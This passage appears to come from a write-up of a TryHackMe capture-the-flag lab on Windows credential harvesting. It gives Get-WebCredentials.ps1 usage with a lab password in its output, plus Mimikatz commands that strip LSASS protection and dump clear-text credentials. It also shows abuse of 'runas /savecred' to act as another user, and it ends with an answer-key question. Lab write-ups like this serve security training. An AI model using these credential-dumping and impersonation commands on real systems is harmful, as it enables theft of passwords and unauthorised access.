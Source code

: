   - PowerShell (Get-WebCredentials.ps1):
    
        Import-Module C:\Tools\Get-WebCredentials.ps1
        Get-WebCredentials
    
      - Output:
      <pre>
        
          UserName  Resource             Password
          --------  --------             --------
          THMUser   internal-app.thm.red E4syPassw0rd
      
      </pre>  

    ![image](https://github.com/user-attachments/assets/58125d63-2dcc-4826-b6d0-d55c1260374f)

  - Mimikatz (Memory Dump):

        !+
        !processprotect /process:lsass.exe /remove
        privilege::debug
        sekurlsa::credman
    
  Extracts clear-text passwords cached in memory.
  
![image](https://github.com/user-attachments/assets/19b42709-8228-4a4b-a9ff-c45c30923a68)


### 3. Abuse runas /savecred
  
  - List saved credentials:

          cmdkey /list

    ![image](https://github.com/user-attachments/assets/233e1ea7-1710-4928-b296-6f9043d2e77b)

  - Execute commands as another user:


        runas /savecred /user:THM.red\thm-local cmd.exe

    ![image](https://github.com/user-attachments/assets/14037829-26f4-4843-8804-a146bc7927ed)

  - Then read the flag:

        type "c:\Users\thm-local\Saved Games\flag.txt"

    ![image](https://github.com/user-attachments/assets/854ac5b5-eaad-4143-8298-7064e2dba91f)


<br>

## _Answers_

Apply the technique for extracting clear-text passwords from Windows Credential Manager. What is the password of the THMuser for internal-app.thm.red?

          